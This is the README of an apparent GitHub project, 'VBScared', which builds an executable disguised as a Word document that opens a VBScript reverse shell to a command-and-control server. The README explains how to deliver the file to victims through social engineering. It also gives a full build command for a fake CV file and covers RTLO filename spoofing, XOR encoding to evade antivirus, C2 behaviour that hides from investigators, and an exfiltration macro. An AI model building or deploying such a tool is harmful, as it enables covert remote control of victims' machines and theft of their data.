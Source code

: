 # VBScared Tool 👻

VBScared is an executable, disguised as a .docx file, that executes a VBScript in-memory reverse shell upon double clicking. The executable can be delivered to victims via social engineering tactics.

## Demo

https://github.com/user-attachments/assets/223b6022-3abf-4a4d-b086-1ede8bb9ca19

## Installation

2 tools are needed during compilation. Add the following binaries to your PATH:

* [Windres](https://winlibs.com/) (this is needed to attach icons to the generated executable and is included in mingw-w64, scroll down to find the downloads)
* [CL](https://visualstudio.microsoft.com/) (included in visual studio, example path C:\Program Files\Microsoft Visual Studio\2022\Community\VC\Tools\MSVC\14.41.34120\bin\Hostx64\x64\cl.exe)
* [VsDevCmd](https://visualstudio.microsoft.com/) (included in visual studio, example path C:\Program Files\Microsoft Visual Studio\2022\Community\Common7\Tools\VsDevCmd.bat)

Next, install the necessary python packages using `py -3 -m pip install -r requirements.txt`.

## Automated build

After adding the previous binaries to your PATH, you can run the `generate.py` script under `scripts` to automate the build process. For example, running the following command will result in an executable disguised as `CV-of-Alexe.docx`. Note that we chose the name Alexe here, as exe is always present in the name.

```
py -3 .\scripts\generate.py -p disguisedshell.vbs -a CALLBACK_URL=http://localhost:80/ FILE_URL=https://cdn.create.microsoft.com/catalog-assets/en-us/972db91c-baf9-4c6b-9605-00b3aa24e07c/TF972db91c-baf9-4c6b-9605-00b3aa24e07c06706e45_wac-21b6606d1277.docx FILE_OUTPUT_NAME=CV-of-Alexe.docx -o CV-of-Al  -s **[]!?**
```

## C2

The `disguisedshell.vbs` payload is designed to work with the bundled python C2 server. To use the C2 server, simply point your CALLBACK_URL (when using `generate.py`, see above) to your C2 host. The C2 will notify you in case a client connects. Type `HELP` for possible commands.

## Features
* Manage multiple connected clients
* Execute commands
* C2 detection evasion, the C2 detects client requests from investigation/other requests and will answer with 404 if request is not coming from client
* Exfilatration macro available
* Payloads are encoded (XOR + key) inside the executable and decoded at runtime. Use -s to encode with a key, different keys will result in different signatures for your executable. This is also useful to avoid AV detection.
* Traffic between clients and the C2 is encoded (XOR + key) to avoid detection.

## Extendability

You can use the vbscared tool with your own custom vbs payloads (use the -p flag to choose your payload).

## Q&A

#### Why is it not visible to the naked eye that the exploit file is actually an executable
We make use of a technique called RTLO hacking (right-to-left-override hacking) to hide our malware in plain sight, see [here](https://www.freecodecamp.org/news/rtlo-in-hacking/) for a detailed explanation.

#### Why do you use vbscript?
This is a small pet project of mine, I chose to execute VBS in-memory because I was up for the challenge and wanted to learn. The main intention was to avoid AV engines by executing VBS in-memory.